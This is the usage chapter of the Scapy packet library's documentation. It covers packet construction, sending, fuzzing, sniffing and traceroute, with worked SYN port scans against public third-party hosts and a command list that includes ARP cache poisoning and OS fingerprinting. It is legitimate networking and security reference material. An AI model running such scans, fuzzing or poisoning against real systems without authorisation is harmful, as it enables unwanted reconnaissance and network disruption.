 *****
Usage
*****

Starting Scapy
==============

Scapy's interactive shell is run in a terminal session. Root privileges are needed to
send the packets, so we're using ``sudo`` here::
  
    $ sudo ./scapy
    Welcome to Scapy (2.4.0)
    >>> 

On Windows, please open a command prompt (``cmd.exe``) and make sure that you have 
administrator privileges::

    C:\>scapy
    Welcome to Scapy (2.4.0)
    >>>

If you do not have all optional packages installed, Scapy will inform you that 
some features will not be available:: 
                                 
    INFO: Can't import python matplotlib wrapper. Won't be able to plot.
    INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().

The basic features of sending and receiving packets should still work, though. 


Customizing the Terminal
------------------------

Before you actually start using Scapy, you may want to configure Scapy to properly render colors on your terminal. To do so, set ``conf.color_theme`` to one of of the following themes::

    DefaultTheme, BrightTheme, RastaTheme, ColorOnBlackTheme, BlackAndWhite, HTMLTheme, LatexTheme

For instance::

    conf.color_theme = BrightTheme()

.. image:: graphics/animations/animation-scapy-themes-demo.gif
   :align: center

Other parameters such as ``conf.prompt`` can also provide some customization. Note Scapy will update the shell automatically as soon as the ``conf`` values are changed.


Interactive tutorial
====================

This section will show you several of Scapy's features with Python 2.
Just open a Scapy session as shown above and try the examples yourself.


First steps
-----------

Let's build a packet and play with it::

    >>> a=IP(ttl=10) 
    >>> a 
    < IP ttl=10 |> 
    >>> a.src 
    ’127.0.0.1’ 
    >>> a.dst="192.168.1.1" 
    >>> a 
    < IP ttl=10 dst=192.168.1.1 |> 
    >>> a.src 
    ’192.168.8.14’ 
    >>> del(a.ttl) 
    >>> a 
    < IP dst=192.168.1.1 |> 
    >>> a.ttl 
    64 

Stacking layers
---------------

The ``/`` operator has been used as a composition operator between two layers. When doing so, the lower layer can have one or more of its defaults fields overloaded according to the upper layer. (You still can give the value you want). A string can be used as a raw layer.

::

    >>> IP()
    <IP |>
    >>> IP()/TCP()
    <IP frag=0 proto=TCP |<TCP |>>
    >>> Ether()/IP()/TCP()
    <Ether type=0x800 |<IP frag=0 proto=TCP |<TCP |>>>
    >>> IP()/TCP()/"GET / HTTP/1.0\r\n\r\n"
    <IP frag=0 proto=TCP |<TCP |<Raw load='GET / HTTP/1.0\r\n\r\n' |>>>
    >>> Ether()/IP()/IP()/UDP()
    <Ether type=0x800 |<IP frag=0 proto=IP |<IP frag=0 proto=UDP |<UDP |>>>>
    >>> IP(proto=55)/TCP()
    <IP frag=0 proto=55 |<TCP |>>


.. image:: graphics/fieldsmanagement.png
   :scale: 90

Each packet can be built or dissected (note: in Python ``_`` (underscore) is the latest result)::

    >>> raw(IP())
    'E\x00\x00\x14\x00\x01\x00\x00@\x00|\xe7\x7f\x00\x00\x01\x7f\x00\x00\x01'
    >>> IP(_)
    <IP version=4L ihl=5L tos=0x0 len=20 id=1 flags= frag=0L ttl=64 proto=IP
     chksum=0x7ce7 src=127.0.0.1 dst=127.0.0.1 |>
    >>>  a=Ether()/IP(dst="www.slashdot.org")/TCP()/"GET /index.html HTTP/1.0 \n\n"
    >>>  hexdump(a)   
    00 02 15 37 A2 44 00 AE F3 52 AA D1 08 00 45 00  ...7.D...R....E.
    00 43 00 01 00 00 40 06 78 3C C0 A8 05 15 42 23  .C....@.x<....B#
    FA 97 00 14 00 50 00 00 00 00 00 00 00 00 50 02  .....P........P.
    20 00 BB 39 00 00 47 45 54 20 2F 69 6E 64 65 78   ..9..GET /index
    2E 68 74 6D 6C 20 48 54 54 50 2F 31 2E 30 20 0A  .html HTTP/1.0 .
    0A                                               .
    >>> b=raw(a)
    >>> b
    '\x00\x02\x157\xa2D\x00\xae\xf3R\xaa\xd1\x08\x00E\x00\x00C\x00\x01\x00\x00@\x06x<\xc0
     \xa8\x05\x15B#\xfa\x97\x00\x14\x00P\x00\x00\x00\x00\x00\x00\x00\x00P\x02 \x00
     \xbb9\x00\x00GET /index.html HTTP/1.0 \n\n'
    >>> c=Ether(b)
    >>> c
    <Ether dst=00:02:15:37:a2:44 src=00:ae:f3:52:aa:d1 type=0x800 |<IP version=4L
     ihl=5L tos=0x0 len=67 id=1 flags= frag=0L ttl=64 proto=TCP chksum=0x783c
     src=192.168.5.21 dst=66.35.250.151 options='' |<TCP sport=20 dport=80 seq=0L
     ack=0L dataofs=5L reserved=0L flags=S window=8192 chksum=0xbb39 urgptr=0
     options=[] |<Raw load='GET /index.html HTTP/1.0 \n\n' |>>>>

We see that a dissected packet has all its fields filled. That's because I consider that each field has its value imposed by the original string. If this is too verbose, the method hide_defaults() will delete every field that has the same value as the default::

    >>> c.hide_defaults()
    >>> c
    <Ether dst=00:0f:66:56:fa:d2 src=00:ae:f3:52:aa:d1 type=0x800 |<IP ihl=5L len=67
     frag=0 proto=TCP chksum=0x783c src=192.168.5.21 dst=66.35.250.151 |<TCP dataofs=5L
     chksum=0xbb39 options=[] |<Raw load='GET /index.html HTTP/1.0 \n\n' |>>>>

Reading PCAP files
------------------

.. index::
   single: rdpcap()

You can read packets from a pcap file and write them to a pcap file. 

    >>> a=rdpcap("/spare/captures/isakmp.cap")
    >>> a
    <isakmp.cap: UDP:721 TCP:0 ICMP:0 Other:0>

Graphical dumps (PDF, PS)
-------------------------

.. index::
   single: pdfdump(), psdump()

If you have PyX installed, you can make a graphical PostScript/PDF dump of a packet or a list of packets (see the ugly PNG image below. PostScript/PDF are far better quality...)::

    >>> a[423].pdfdump(layer_shift=1)
    >>> a[423].psdump("/tmp/isakmp_pkt.eps",layer_shift=1)
    
.. image:: graphics/isakmp_dump.png



=======================   ====================================================
Command                   Effect
=======================   ====================================================
raw(pkt)                  assemble the packet
hexdump(pkt)              have a hexadecimal dump 
ls(pkt)                   have the list of fields values 
pkt.summary()             for a one-line summary 
pkt.show()                for a developed view of the packet 
pkt.show2()               same as show but on the assembled packet (checksum is calculated, for instance) 
pkt.sprintf()             fills a format string with fields values of the packet 
pkt.decode_payload_as()   changes the way the payload is decoded 
pkt.psdump()              draws a PostScript diagram with explained dissection 
pkt.pdfdump()             draws a PDF with explained dissection 
pkt.command()             return a Scapy command that can generate the packet 
=======================   ====================================================



Generating sets of packets
--------------------------

For the moment, we have only generated one packet. Let see how to specify sets of packets as easily. Each field of the whole packet (ever layers) can be a set. This implicitly defines a set of packets, generated using a kind of cartesian product between all the fields.

::

    >>> a=IP(dst="www.slashdot.org/30")
    >>> a
    <IP  dst=Net('www.slashdot.org/30') |>
    >>> [p for p in a]
    [<IP dst=66.35.250.148 |>, <IP dst=66.35.250.149 |>,
     <IP dst=66.35.250.150 |>, <IP dst=66.35.250.151 |>]
    >>> b=IP(ttl=[1,2,(5,9)])
    >>> b
    <IP ttl=[1, 2, (5, 9)] |>
    >>> [p for p in b]
    [<IP ttl=1 |>, <IP ttl=2 |>, <IP ttl=5 |>, <IP ttl=6 |>, 
     <IP ttl=7 |>, <IP ttl=8 |>, <IP ttl=9 |>]
    >>> c=TCP(dport=[80,443])
    >>> [p for p in a/c]
    [<IP frag=0 proto=TCP dst=66.35.250.148 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.148 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.149 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.149 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.150 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.150 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.151 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.151 |<TCP dport=443 |>>]

Some operations (like building the string from a packet) can't work on a set of packets. In these cases, if you forgot to unroll your set of packets, only the first element of the list you forgot to generate will be used to assemble the packet.

===============  ====================================================
Command          Effect
===============  ====================================================
summary()        displays a list of summaries of each packet 
nsummary()       same as previous, with the packet number 
conversations()  displays a graph of conversations 
show()           displays the preferred representation (usually nsummary()) 
filter()         returns a packet list filtered with a lambda function 
hexdump()        returns a hexdump of all packets 
hexraw()         returns a hexdump of the Raw layer of all packets 
padding()        returns a hexdump of packets with padding 
nzpadding()      returns a hexdump of packets with non-zero padding 
plot()           plots a lambda function applied to the packet list 
make table()     displays a table according to a lambda function 
===============  ====================================================



Sending packets
---------------

.. index::
   single: Sending packets, send
   
Now that we know how to manipulate packets. Let's see how to send them. The send() function will send packets at layer 3. That is to say, it will handle routing and layer 2 for you. The sendp() function will work at layer 2. It's up to you to choose the right interface and the right link layer protocol. send() and sendp() will also return sent packet list if return_packets=True is passed as parameter.

::

    >>> send(IP(dst="1.2.3.4")/ICMP())
    .
    Sent 1 packets.
    >>> sendp(Ether()/IP(dst="1.2.3.4",ttl=(1,4)), iface="eth1")
    ....
    Sent 4 packets.
    >>> sendp("I'm travelling on Ethernet", iface="eth1", loop=1, inter=0.2)
    ................^C
    Sent 16 packets.
    >>> sendp(rdpcap("/tmp/pcapfile")) # tcpreplay
    ...........
    Sent 11 packets.
    
    Returns packets sent by send()
    >>> send(IP(dst='127.0.0.1'), return_packets=True)
    .
    Sent 1 packets.
    <PacketList: TCP:0 UDP:0 ICMP:0 Other:1>


Fuzzing
-------

.. index::
   single: fuzz(), fuzzing

The function fuzz() is able to change any default value that is not to be calculated (like checksums) by an object whose value is random and whose type is adapted to the field. This enables quickly building fuzzing templates and sending them in a loop. In the following example, the IP layer is normal, and the UDP and NTP layers are fuzzed. The UDP checksum will be correct, the UDP destination port will be overloaded by NTP to be 123 and the NTP version will be forced to be 4. All the other ports will be randomized. Note: If you use fuzz() in IP layer, src and dst parameter won't be random so in order to do that use RandIP().::

    >>> send(IP(dst="target")/fuzz(UDP()/NTP(version=4)),loop=1)
    ................^C
    Sent 16 packets.


Send and receive packets (sr)
-----------------------------

.. index::
   single: sr()

Now, let's try to do some fun things. The sr() function is for sending packets and receiving answers. The function returns a couple of packet and answers, and the unanswered packets. The function sr1() is a variant that only returns one packet that answered the packet (or the packet set) sent. The packets must be layer 3 packets (IP, ARP, etc.). The function srp() do the same for layer 2 packets (Ethernet, 802.3, etc.). If there is no response, a None value will be assigned instead when the timeout is reached.

::

    >>> p = sr1(IP(dst="www.slashdot.org")/ICMP()/"XXXXXXXXXXX")
    Begin emission:
    ...Finished to send 1 packets.
    .*
    Received 5 packets, got 1 answers, remaining 0 packets
    >>> p
    <IP version=4L ihl=5L tos=0x0 len=39 id=15489 flags= frag=0L ttl=42 proto=ICMP
     chksum=0x51dd src=66.35.250.151 dst=192.168.5.21 options='' |<ICMP type=echo-reply
     code=0 chksum=0xee45 id=0x0 seq=0x0 |<Raw load='XXXXXXXXXXX'
     |<Padding load='\x00\x00\x00\x00' |>>>>
    >>> p.show()
    ---[ IP ]---
    version   = 4L
    ihl       = 5L
    tos       = 0x0
    len       = 39
    id        = 15489
    flags     = 
    frag      = 0L
    ttl       = 42
    proto     = ICMP
    chksum    = 0x51dd
    src       = 66.35.250.151
    dst       = 192.168.5.21
    options   = ''
    ---[ ICMP ]---
       type      = echo-reply
       code      = 0
       chksum    = 0xee45
       id        = 0x0
       seq       = 0x0
    ---[ Raw ]---
          load      = 'XXXXXXXXXXX'
    ---[ Padding ]---
             load      = '\x00\x00\x00\x00'


.. index::
   single: DNS, Etherleak

A DNS query (``rd`` = recursion desired). The host 192.168.5.1 is my DNS server. Note the non-null padding coming from my Linksys having the Etherleak flaw::

    >>> sr1(IP(dst="192.168.5.1")/UDP()/DNS(rd=1,qd=DNSQR(qname="www.slashdot.org")))
    Begin emission:
    Finished to send 1 packets.
    ..*
    Received 3 packets, got 1 answers, remaining 0 packets
    <IP version=4L ihl=5L tos=0x0 len=78 id=0 flags=DF frag=0L ttl=64 proto=UDP chksum=0xaf38
     src=192.168.5.1 dst=192.168.5.21 options='' |<UDP sport=53 dport=53 len=58 chksum=0xd55d
     |<DNS id=0 qr=1L opcode=QUERY aa=0L tc=0L rd=1L ra=1L z=0L rcode=ok qdcount=1 ancount=1
     nscount=0 arcount=0 qd=<DNSQR qname='www.slashdot.org.' qtype=A qclass=IN |> 
     an=<DNSRR rrname='www.slashdot.org.' type=A rclass=IN ttl=3560L rdata='66.35.250.151' |>
     ns=0 ar=0 |<Padding load='\xc6\x94\xc7\xeb' |>>>>

The "send'n'receive" functions family is the heart of Scapy. They return a couple of two lists. The first element is a list of couples (packet sent, answer), and the second element is the list of unanswered packets. These two elements are lists, but they are wrapped by an object to present them better, and to provide them with some methods that do most frequently needed actions::

    >>> sr(IP(dst="192.168.8.1")/TCP(dport=[21,22,23]))
    Received 6 packets, got 3 answers, remaining 0 packets
    (<Results: UDP:0 TCP:3 ICMP:0 Other:0>, <Unanswered: UDP:0 TCP:0 ICMP:0 Other:0>)
    >>> ans, unans = _
    >>> ans.summary()
    IP / TCP 192.168.8.14:20 > 192.168.8.1:21 S ==> Ether / IP / TCP 192.168.8.1:21 > 192.168.8.14:20 RA / Padding
    IP / TCP 192.168.8.14:20 > 192.168.8.1:22 S ==> Ether / IP / TCP 192.168.8.1:22 > 192.168.8.14:20 RA / Padding
    IP / TCP 192.168.8.14:20 > 192.168.8.1:23 S ==> Ether / IP / TCP 192.168.8.1:23 > 192.168.8.14:20 RA / Padding
    
If there is a limited rate of answers, you can specify a time interval (in seconds) to wait between two packets with the inter parameter. If some packets are lost or if specifying an interval is not enough, you can resend all the unanswered packets, either by calling the function again, directly with the unanswered list, or by specifying a retry parameter. If retry is 3, Scapy will try to resend unanswered packets 3 times. If retry is -3, Scapy will resend unanswered packets until no more answer is given for the same set of unanswered packets 3 times in a row. The timeout parameter specify the time to wait after the last packet has been sent::

    >>> sr(IP(dst="172.20.29.5/30")/TCP(dport=[21,22,23]),inter=0.5,retry=-2,timeout=1)
    Begin emission:
    Finished to send 12 packets.
    Begin emission:
    Finished to send 9 packets.
    Begin emission:
    Finished to send 9 packets.
    
    Received 100 packets, got 3 answers, remaining 9 packets
    (<Results: UDP:0 TCP:3 ICMP:0 Other:0>, <Unanswered: UDP:0 TCP:9 ICMP:0 Other:0>)


SYN Scans
---------

.. index::
   single: SYN Scan

Classic SYN Scan can be initialized by executing the following command from Scapy's prompt::

    >>> sr1(IP(dst="72.14.207.99")/TCP(dport=80,flags="S"))

The above will send a single SYN packet to Google's port 80 and will quit after receiving a single response::

    Begin emission:
    .Finished to send 1 packets.
    *
    Received 2 packets, got 1 answers, remaining 0 packets
    <IP  version=4L ihl=5L tos=0x20 len=44 id=33529 flags= frag=0L ttl=244
    proto=TCP chksum=0x6a34 src=72.14.207.99 dst=192.168.1.100 options=// |
    <TCP  sport=www dport=ftp-data seq=2487238601L ack=1 dataofs=6L reserved=0L
    flags=SA window=8190 chksum=0xcdc7 urgptr=0 options=[('MSS', 536)] |
    <Padding  load='V\xf7' |>>>

From the above output, we can see Google returned “SA” or SYN-ACK flags indicating an open port.

Use either notations to scan ports 400 through 443 on the system:

    >>> sr(IP(dst="192.168.1.1")/TCP(sport=666,dport=(440,443),flags="S"))

or

    >>> sr(IP(dst="192.168.1.1")/TCP(sport=RandShort(),dport=[440,441,442,443],flags="S"))

In order to quickly review responses simply request a summary of collected packets::

    >>> ans, unans = _
    >>> ans.summary()
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:440 S ======> IP / TCP 192.168.1.1:440 > 192.168.1.100:ftp-data RA / Padding
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:441 S ======> IP / TCP 192.168.1.1:441 > 192.168.1.100:ftp-data RA / Padding
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:442 S ======> IP / TCP 192.168.1.1:442 > 192.168.1.100:ftp-data RA / Padding
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:https S ======> IP / TCP 192.168.1.1:https > 192.168.1.100:ftp-data SA / Padding

The above will display stimulus/response pairs for answered probes. We can display only the information we are interested in by using a simple loop:

    >>> ans.summary( lambda sr: sr[1].sprintf("%TCP.sport% \t %TCP.flags%") )
    440      RA
    441      RA
    442      RA
    https    SA

Even better, a table can be built using the ``make_table()`` function to display information about multiple targets::

    >>> ans, unans = sr(IP(dst=["192.168.1.1","yahoo.com","slashdot.org"])/TCP(dport=[22,80,443],flags="S"))
    Begin emission:
    .......*.**.......Finished to send 9 packets.
    **.*.*..*..................
    Received 362 packets, got 8 answers, remaining 1 packets
    >>> ans.make_table(
    ...    lambda(s,r): (s.dst, s.dport,
    ...    r.sprintf("{TCP:%TCP.flags%}{ICMP:%IP.src% - %ICMP.type%}")))
        66.35.250.150                192.168.1.1 216.109.112.135 
    22  66.35.250.150 - dest-unreach RA          -               
    80  SA                           RA          SA              
    443 SA                           SA          SA              

The above example will even print the ICMP error type if the ICMP packet was received as a response instead of expected TCP.

For larger scans, we could be interested in displaying only certain responses. The example below will only display packets with the “SA” flag set::

    >>> ans.nsummary(lfilter = lambda (s,r): r.sprintf("%TCP.flags%") == "SA")
    0003 IP / TCP 192.168.1.100:ftp_data > 192.168.1.1:https S ======> IP / TCP 192.168.1.1:https > 192.168.1.100:ftp_data SA

In case we want to do some expert analysis of responses, we can use the following command to indicate which ports are open::

    >>> ans.summary(lfilter = lambda (s,r): r.sprintf("%TCP.flags%") == "SA",prn=lambda(s,r):r.sprintf("%TCP.sport% is open"))
    https is open

Again, for larger scans we can build a table of open ports::

    >>> ans.filter(lambda (s,r):TCP in r and r[TCP].flags&2).make_table(lambda (s,r): 
    ...             (s.dst, s.dport, "X"))
        66.35.250.150 192.168.1.1 216.109.112.135 
    80  X             -           X               
    443 X             X           X

If all of the above methods were not enough, Scapy includes a report_ports() function which not only automates the SYN scan, but also produces a LaTeX output with collected results::

    >>> report_ports("192.168.1.1",(440,443))
    Begin emission:
    ...*.**Finished to send 4 packets.
    *
    Received 8 packets, got 4 answers, remaining 0 packets
    '\\begin{tabular}{|r|l|l|}\n\\hline\nhttps & open & SA \\\\\n\\hline\n440
     & closed & TCP RA \\\\\n441 & closed & TCP RA \\\\\n442 & closed & 
    TCP RA \\\\\n\\hline\n\\hline\n\\end{tabular}\n'


TCP traceroute
--------------

.. index::
   single: Traceroute

A TCP traceroute::

    >>> ans, unans = sr(IP(dst=target, ttl=(4,25),id=RandShort())/TCP(flags=0x2))
    *****.******.*.***..*.**Finished to send 22 packets.
    ***......
    Received 33 packets, got 21 answers, remaining 1 packets
    >>> for snd,rcv in ans:
    ...     print snd.ttl, rcv.src, isinstance(rcv.payload, TCP)
    ... 
    5 194.51.159.65 0
    6 194.51.159.49 0
    4 194.250.107.181 0
    7 193.251.126.34 0
    8 193.251.126.154 0
    9 193.251.241.89 0
    10 193.251.241.110 0
    11 193.251.241.173 0
    13 208.172.251.165 0
    12 193.251.241.173 0
    14 208.172.251.165 0
    15 206.24.226.99 0
    16 206.24.238.34 0
    17 173.109.66.90 0
    18 173.109.88.218 0
    19 173.29.39.101 1
    20 173.29.39.101 1
    21 173.29.39.101 1
    22 173.29.39.101 1
    23 173.29.39.101 1
    24 173.29.39.101 1

Note that the TCP traceroute and some other high-level functions are already coded::

    >>> lsc()
    sr               : Send and receive packets at layer 3
    sr1              : Send packets at layer 3 and return only the first answer
    srp              : Send and receive packets at layer 2
    srp1             : Send and receive packets at layer 2 and return only the first answer
    srloop           : Send a packet at layer 3 in loop and print the answer each time
    srploop          : Send a packet at layer 2 in loop and print the answer each time
    sniff            : Sniff packets
    p0f              : Passive OS fingerprinting: which OS emitted this TCP SYN ?
    arpcachepoison   : Poison target's cache with (your MAC,victim's IP) couple
    send             : Send packets at layer 3
    sendp            : Send packets at layer 2
    traceroute       : Instant TCP traceroute
    arping           : Send ARP who-has requests to determine which hosts are up
    ls               : List  available layers, or infos on a given layer
    lsc              : List user commands
    queso            : Queso OS fingerprinting
    nmap_fp          : nmap fingerprinting
    report_ports     : portscan a target and output a LaTeX table
    dyndns_add       : Send a DNS add message to a nameserver for "name" to have a new "rdata"
    dyndns_del       : Send a DNS delete message to a nameserver for "name"
    [...]

Scapy may also use the GeoIP2 module, in combination with matplotlib and `cartopy <http://scitools.org.uk/cartopy/docs/latest/installing.html>`_ to generate fancy graphics such as below:

.. image:: graphics/traceroute_worldplot.png

In this example, we used the `traceroute_map()` function to print the graphic. This method is a shortcut which uses the `world_trace` of the `TracerouteResult` objects.
It could have been done differently:

    >>> conf.geoip_city = "path/to/GeoLite2-City.mmdb"
    >>> a = traceroute(["www.google.co.uk", "www.secdev.org"], verbose=0)
    >>> a.world_trace()

or such as above:

    >>> conf.geoip_city = "path/to/GeoLite2-City.mmdb"
    >>> traceroute_map(["www.google.co.uk", "www.secdev.org"])

To use those functions, it is required to have installed the `geoip2 <https://pypi.python.org/pypi/geoip2>`_ module, `its database <https://dev.maxmind.com/geoip/geoip2/geolite2/>`_ (`direct download <https://geolite.maxmind.com/download/geoip/database/GeoLite2-City.tar.gz>`_)
but also the `cartopy <http://scitools.org.uk/cartopy/docs/latest/installing.html>`_ module.

Configuring super sockets
-------------------------

.. index::
   single: super socket

Different super sockets are available in Scapy: the **native** ones, and the ones that use **libpcap** (to send/receive packets).

By default, Scapy will try to use the native ones (*except on Windows, where the winpcap/npcap ones are preferred*). To manually use the **libpcap** ones, you must:

* On Unix/OSX: be sure to have libpcap installed.
* On Windows: have Npcap/Winpcap installed. (default)

Then use::

    >>> conf.use_pcap = True

This will automatically update the sockets pointing to ``conf.L2socket`` and ``conf.L3socket``.

If you want to manually set them, you have a bunch of sockets available, depending on your platform. For instance, you might want to use::

    >>> conf.L3socket=L3pcapSocket  # Receive/send L3 packets through libpcap
    >>> conf.L2listen=L2ListenTcpdump  # Receive L2 packets through TCPDump

Sniffing
--------

.. index::
   single: sniff()

We can easily capture some packets or even clone tcpdump or tshark. Either one interface or a list of interfaces to sniff on can be provided. If no interface is given, sniffing will happen on ``conf.iface``::

    >>>  sniff(filter="icmp and host 66.35.250.151", count=2)
    <Sniffed: UDP:0 TCP:0 ICMP:2 Other:0>
    >>>  a=_
    >>>  a.nsummary()
    0000 Ether / IP / ICMP 192.168.5.21 echo-request 0 / Raw
    0001 Ether / IP / ICMP 192.168.5.21 echo-request 0 / Raw
    >>>  a[1]
    <Ether dst=00:ae:f3:52:aa:d1 src=00:02:15:37:a2:44 type=0x800 |<IP version=4L
     ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=ICMP chksum=0x3831
     src=192.168.5.21 dst=66.35.250.151 options='' |<ICMP type=echo-request code=0
     chksum=0x6571 id=0x8745 seq=0x0 |<Raw load='B\xf7g\xda\x00\x07um\x08\t\n\x0b
     \x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d
     \x1e\x1f !\x22#$%&\'()*+,-./01234567' |>>>>
    >>> sniff(iface="wifi0", prn=lambda x: x.summary())
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 5 00:0a:41:ee:a5:50 / 802.11 Probe Response / Info SSID / Info Rates / Info DSset / Info 133
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 11 00:07:50:d6:44:3f / 802.11 Authentication
    802.11 Management 11 00:0a:41:ee:a5:50 / 802.11 Authentication
    802.11 Management 0 00:07:50:d6:44:3f / 802.11 Association Request / Info SSID / Info Rates / Info 133 / Info 149
    802.11 Management 1 00:0a:41:ee:a5:50 / 802.11 Association Response / Info Rates / Info 133 / Info 149
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 / LLC / SNAP / ARP who has 172.20.70.172 says 172.20.70.171 / Padding
    802.11 / LLC / SNAP / ARP is at 00:0a:b7:4b:9c:dd says 172.20.70.172 / Padding
    802.11 / LLC / SNAP / IP / ICMP echo-request 0 / Raw
    802.11 / LLC / SNAP / IP / ICMP echo-reply 0 / Raw
    >>> sniff(iface="eth1", prn=lambda x: x.show())
    ---[ Ethernet ]---
    dst       = 00:ae:f3:52:aa:d1
    src       = 00:02:15:37:a2:44
    type      = 0x800
    ---[ IP ]---
       version   = 4L
       ihl       = 5L
       tos       = 0x0
       len       = 84
       id        = 0
       flags     = DF
       frag      = 0L
       ttl       = 64
       proto     = ICMP
       chksum    = 0x3831
       src       = 192.168.5.21
       dst       = 66.35.250.151
       options   = ''
    ---[ ICMP ]---
          type      = echo-request
          code      = 0
          chksum    = 0x89d9
          id        = 0xc245
          seq       = 0x0
    ---[ Raw ]---
             load      = 'B\xf7i\xa9\x00\x04\x149\x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !\x22#$%&\'()*+,-./01234567'
    ---[ Ethernet ]---
    dst       = 00:02:15:37:a2:44
    src       = 00:ae:f3:52:aa:d1
    type      = 0x800
    ---[ IP ]---
       version   = 4L
       ihl       = 5L
       tos       = 0x0
       len       = 84
       id        = 2070
       flags     = 
       frag      = 0L
       ttl       = 42
       proto     = ICMP
       chksum    = 0x861b
       src       = 66.35.250.151
       dst       = 192.168.5.21
       options   = ''
    ---[ ICMP ]---
          type      = echo-reply
          code      = 0
          chksum    = 0x91d9
          id        = 0xc245
          seq       = 0x0
    ---[ Raw ]---
             load      = 'B\xf7i\xa9\x00\x04\x149\x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !\x22#$%&\'()*+,-./01234567'
    ---[ Padding ]---
                load      = '\n_\x00\x0b'
    >>> sniff(iface=["eth1","eth2"], prn=lambda x: x.sniffed_on+": "+x.summary())
